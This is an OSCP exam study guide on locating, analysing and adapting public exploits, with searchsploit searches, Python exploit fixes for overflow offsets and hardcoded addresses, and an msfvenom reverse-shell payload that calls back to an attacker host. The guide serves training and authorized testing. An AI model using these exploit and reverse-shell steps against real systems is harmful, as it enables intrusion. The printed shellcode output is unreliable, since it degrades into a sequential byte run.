



## Introduction: Why OSCP Tests Exploit Fixing

The OSCP certification explicitly states that candidates **must be able to modify existing exploits** to work against target systems. In real-world engagements and exam labs, public exploits rarely work out-of-the-box due to:
- Environment differences (OS version, service patch level, architecture)
- Outdated code (Python 2 vs Python 3, deprecated libraries)
- Hardcoded values (IPs, ports, offsets, payloads)
- Missing dependencies or encoding mismatches
- Modern mitigations (ASLR, DEP, stack cookies)

This guide provides a **complete, step-by-step methodology** for locating, analyzing, fixing, and validating public exploits. Every section includes real commands, realistic outputs, code diffs, and practice targets aligned with OSCP objectives.

> {: .prompt-tip }
> **OSCP Mindset:** You are not expected to write exploits from scratch. You are expected to read, understand, debug, and adapt existing code to achieve reliable execution on the target.

---

## Phase 1: Locating & Searching for Public Exploits

### Search Workflow



### Primary Exploit Repositories

| Platform | URL | Best For |
|----------|-----|----------|
| **Exploit-DB** | https://www.exploit-db.com | Official, curated, OSCP-aligned |
| **SearchSploit** | `searchsploit` CLI | Offline Exploit-DB mirror |
| **GitHub** | https://github.com | Modern exploits, PoCs, scripts |
| **Packet Storm** | https://packetstormsecurity.com | Historical exploits, advisories |
| **NVD** | https://nvd.nist.gov | CVE details, CVSS, references |
| **CVE Details** | https://www.cvedetails.com | Version mapping, exploit links |
| **Shodan/Censys** | https://shodan.io / https://censys.io | Service/version discovery |

### Step-by-Step Search Examples

**1. Search by Service & Version (SearchSploit)**
```bash
searchsploit apache 2.4.49
```
**Output:**
```text
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution     | linux/webapps/50383.sh
Apache HTTP Server 2.4.49 - 'mod_proxy' SSRF                           | multiple/webapps/50382.py
----------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

**2. Search by CVE (Exploit-DB CLI)**
```bash
searchsploit -c CVE-2017-0144
```
**Output:**
```text
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010)       | windows/dos/41891.py
Microsoft Windows 7/2008 R2/8.1/2012 R2/10 - SMB Remote Code Execution | windows/remote/42315.py
Microsoft Windows 7/8.1/10/2008 R2/2012 R2/2016 - SMB Remote Code Execution | windows/remote/42031.py
----------------------------------------------------------------------- ---------------------------------
```

**3. Download & Verify Exploit**
```bash
searchsploit -m windows/remote/42315.py
file 42315.py
head -20 42315.py
```
**Output:**
```text
  Exploit: Microsoft Windows 7/2008 R2/8.1/2012 R2/10 - SMB Remote Code Execution
      URL: https://www.exploit-db.com/exploits/42315
     Path: /usr/share/exploitdb/exploits/windows/remote/42315.py
    Codes: CVE-2017-0144, MSB-MS17-010
 Verified: True
File Type: Python script, ASCII text executable, with CRLF line terminators
#!/usr/bin/python
# -*- coding: utf-8 -*-
# MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
# ...
```

> {: .prompt-tip }
> Always verify exploit authenticity. Check `Verified: True` in SearchSploit, review commit history on GitHub, and cross-reference with NVD/CVE Details. Never run unreviewed exploits on production or exam targets.

---

## Phase 2: Analyzing the Exploit Code

Before attempting fixes, understand what the exploit does.

### Analysis Checklist

| Check | Command/Method | Purpose |
|-------|----------------|---------|
| Language & Version | `head -5 exploit.py`, `python3 --version` | Python 2 vs 3, Ruby, Perl, C |
| Dependencies | `grep -i "import\|require\|use" exploit.py` | Missing libraries, deprecated modules |
| Architecture | `grep -i "x86\|x64\|32\|64" exploit.py` | Payload/offset compatibility |
| Hardcoded Values | `grep -n "10\.10\|192\.168\|4444\|0x" exploit.py` | IPs, ports, offsets, shellcode |
| Payload Type | `grep -i "shellcode\|payload\|reverse\|bind" exploit.py` | Reverse/bind, encoding, size limits |
| Network Protocol | `grep -i "socket\|requests\|smb\|http" exploit.py` | TCP/UDP, HTTP, SMB, custom |
| Error Handling | `grep -i "try:\|except\|raise\|exit" exploit.py` | Debugging points, failure modes |

### Example: Quick Analysis
```bash
grep -n "import\|LHOST\|LPORT\|shellcode\|0x" 42315.py | head -15
```
**Output:**
```text
12:import sys
13:import struct
14:import socket
15:import time
16:from impacket import smb
17:from impacket import smb3
18:from impacket import ntlm
19:from impacket import uuid
20:from impacket.dcerpc.v5 import transport
45:LHOST = "10.10.14.5"
46:LPORT = 4444
89:shellcode = "\x90" * 100 + "\xcc" * 100
```

---

## Phase 3: Why Public Exploits Fail (Common Scenarios)

| Failure Reason | Symptom | Fix Strategy |
|----------------|---------|--------------|
| **Python 2 → Python 3** | `SyntaxError: Missing parentheses in call to 'print'`, `urllib2` not found | Update syntax, replace `urllib2` → `urllib.request`, `raw_input` → `input` |
| **Hardcoded IP/Port** | Exploit connects to attacker's old IP, times out | Replace with `sys.argv`, `argparse`, or config variables |
| **Wrong Offsets** | Crash but no shell, EIP overwritten incorrectly | Recalculate offset, adjust for OS/service version |
| **Payload Encoding** | Shellcode contains bad characters (`\x00`, `\x0a`, `\x0d`) | Re-encode with `msfvenom`, filter bad chars |
| **Missing Dependencies** | `ModuleNotFoundError: No module named 'impacket'` | `pip3 install impacket`, use virtualenv |
| **Architecture Mismatch** | x86 payload on x64 target, crashes | Generate correct arch payload, adjust offsets |
| **Network/Timeout** | `Connection refused`, `TimeoutError` | Increase timeout, verify firewall, use correct protocol |

---

## Phase 4: Step-by-Step Exploit Fixing (Real Examples)

### Example 1: Python 2 → Python 3 Migration

**Original (Python 2):**
```python
import urllib2
import sys

target = sys.argv[1]
url = "http://" + target + "/vuln.php?cmd="
response = urllib2.urlopen(url + "whoami")
print response.read()
```

**Issues:**
- `urllib2` doesn't exist in Python 3
- `print` is a function in Python 3
- No error handling

**Fixed (Python 3):**
```python
import urllib.request
import urllib.error
import sys

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <target_ip>")
    sys.exit(1)

target = sys.argv[1]
url = f"http://{target}/vuln.php?cmd="

try:
    response = urllib.request.urlopen(url + "whoami")
    print(response.read().decode('utf-8'))
except urllib.error.URLError as e:
    print(f"Error: {e}")
    sys.exit(1)
```

**Test Output:**
```bash
python3 exploit_fixed.py 10.10.10.15
```
```text
nt authority\system
```

---

### Example 2: Hardcoded IP/Port → Dynamic Arguments

**Original:**
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.100", 4444))
s.send(b"PAYLOAD_HERE")
```

**Fixed:**
```python
import socket
import sys

if len(sys.argv) != 3:
    print(f"Usage: {sys.argv[0]} <target_ip> <target_port>")
    sys.exit(1)

target_ip = sys.argv[1]
target_port = int(sys.argv[2])

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((target_ip, target_port))
    print(f"[+] Connected to {target_ip}:{target_port}")
    s.send(b"PAYLOAD_HERE")
    print("[+] Payload sent")
except Exception as e:
    print(f"[-] Connection failed: {e}")
    sys.exit(1)
finally:
    s.close()
```

**Test Output:**
```bash
python3 exploit_fixed.py 10.10.10.15 80
```
```text
[+] Connected to 10.10.10.15:80
[+] Payload sent
```

---

### Example 3: Offset Adjustment for Different OS Version

**Scenario:** Buffer overflow exploit crashes on Windows 10 but works on Windows 7. EIP is overwritten at offset 2048 on Win7, but Win10 requires 2112 due to ASLR/stack alignment.

**Original:**
```python
offset = 2048
eip = b"\x41\x41\x41\x41"
payload = b"A" * offset + eip + shellcode
```

**Fixed:**
```python
import sys

# Detect target or allow manual override
target_os = sys.argv[2] if len(sys.argv) > 2 else "win7"

if target_os == "win10":
    offset = 2112
    eip = b"\x90\x90\x90\x90"  # NOP sled or JMP ESP
else:
    offset = 2048
    eip = b"\x41\x41\x41\x41"

shellcode = b"\x90" * 50 + b"\xcc" * 100  # Replace with real shellcode
payload = b"A" * offset + eip + shellcode

print(f"[*] Generated payload for {target_os} (offset={offset})")
print(f"[*] Payload length: {len(payload)} bytes")
```

**Test Output:**
```bash
python3 exploit_fixed.py 10.10.10.15 win10
```
```text
[*] Generated payload for win10 (offset=2112)
[*] Payload length: 2268 bytes
```

---

### Example 4: Payload Encoding & Bad Character Filtering

**Problem:** Shellcode contains `\x00`, `\x0a`, `\x0d` which break string-based protocols.

**Original:**
```python
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```

**Fixed (msfvenom generation + integration):**
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -b '\x00\x0a\x0d' -f python -v shellcode
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 68 (iteration=0)
x86/shikata_ga_nai chosen with final size 68
Payload size: 68 bytes
Final size of python file: 341 bytes

shellcode =  b""
shellcode += b"\xdb\xd5\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x0b\x31\x42\x17\x83"
shellcode += b"\xea\xfc\x03\x42\x13\xe2\x1f\x1c\x1d\x8f\x38\x9f\x8a\x04\x24"
shellcode += b"\x6f\x0f\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
shellcode += b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35"
shellcode += b"\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44"
shellcode += b"\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53"
shellcode += b"\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
shellcode += b"\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71"
shellcode += b"\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
```

**Integration:**
```python
import sys
import socket

target = sys.argv[1]
port = int(sys.argv[2])

shellcode = b"\xdb\xd5\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x0b\x31\x42\x17\x83"
shellcode += b"\xea\xfc\x03\x42\x13\xe2\x1f\x1c\x1d\x8f\x38\x9f\x8a\x04\x24"
# ... rest of shellcode

payload = b"A" * 2048 + b"\x90\x90\x90\x90" + shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send(payload)
print("[+] Payload delivered")
s.close()
```

---

## Phase 5: Testing & Validation Workflow



### Validation Checklist
- [ ] Exploit runs without syntax errors
- [ ] Connects to correct target IP/port
- [ ] Payload delivers successfully (verify with Wireshark)
- [ ] EIP/RIP controlled (if buffer overflow)
- [ ] Shellcode executes (reverse shell connects)
- [ ] No crashes on repeated runs
- [ ] Cleanup artifacts removed

### Debugging Tools
| Tool | Use Case | Command |
|------|----------|---------|
| `gdb` | Linux binary debugging | `gdb ./vuln`, `run`, `info registers`, `x/20x $esp` |
| `x64dbg` | Windows binary debugging | Attach to process, set breakpoints, step through |
| `Wireshark` | Network payload verification | Filter: `tcp.port == 4444`, follow TCP stream |
| `tcpdump` | CLI packet capture | `tcpdump -i eth0 -w exploit.pcap port 4444` |
| `strace`/`ltrace` | System/library call tracing | `strace -f ./exploit.py` |

---

## Practice Labs & HTB Machines

| Machine | OS | Vulnerability | Exploit Fixing Focus |
|---------|----|---------------|----------------------|
| **Legacy** | Windows XP | MS08-067 | Python 2→3, offset adjustment, payload encoding |
| **Blue** | Windows 7 | MS17-010 | Impacket dependencies, architecture fix, timeout handling |
| **Optimum** | Windows Server 2012 | CVE-2014-6287 (HttpFileServer) | Hardcoded IP/port, Python 3 migration, shellcode size limit |
| **Devel** | Windows 7 | FTP Upload + IIS | Payload format fix, ASPX execution, path traversal |
| **Bastard** | Windows Server 2008 | Drupal 7 SA-CORE-2018-002 | PHP payload adaptation, web shell execution, privilege escalation |
| **Sunday** | Solaris 10 | YPServ/NIS | Architecture mismatch (SPARC/x86), legacy Python, network timeout |
| **Cronos** | Ubuntu 16.04 | Laravel Debug Mode + Cron | Python 3 migration, command injection payload, reverse shell encoding |
| **Lame** | Ubuntu 8.04 | Samba 3.0.20 | Buffer overflow offset, bad character filtering, stack alignment |
| **Kotarak** | Ubuntu 16.04 | Tomcat Manager + Sudo | WAR payload generation, Java environment fix, privilege escalation |
| **Poison** | FreeBSD 11.1 | PHP LFI + Log Poisoning | Payload encoding, log rotation bypass, reverse shell adaptation |

> {: .prompt-tip }
> **HTB Tip:** Start with `Legacy` and `Blue` for Windows exploit fixing. Move to `Optimum` and `Bastard` for web/service adaptation. Use `Lame` and `Cronos` for Linux buffer overflow & payload encoding practice.

---

## Exploit Fixing Decision Tree



---

## References

- [OffSec OSCP Exam Guide — Exploit Modification Section](https://www.offsec.com/courses/pen-200/)
- [Exploit-DB Official Documentation](https://www.exploit-db.com/docs)
- [SearchSploit Manual](https://www.kali.org/tools/searchsploit/)
- [Python 2 to 3 Migration Guide](https://docs.python.org/3/howto/pyporting.html)
- [MSFVenom Payload Generation](https://www.offsec.com/metasploit-unleashed/msfvenom/)
- [HTB Writeups — Exploit Fixing Focus](https://0xdf.gitlab.io/htb-writeups/)
- [IppSec YouTube — Exploit Adaptation Walkthroughs](https://www.youtube.com/c/ippsec)
- [Corelan Exploit Tutorials](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
- [NVD CVE Database](https://nvd.nist.gov/)
- [Packet Storm Security](https://packetstormsecurity.com/)

---

*Last updated: February 15, 2026*
*Author: Security Researcher & OSCP Instructor*
*License: MIT*

> {: .prompt-warning }
> **Legal & Ethical Notice:** Exploit fixing and adaptation must only be performed in authorized environments, isolated labs, or during sanctioned penetration tests. Unauthorized exploitation of systems violates computer fraud laws globally. Always obtain written permission before testing.
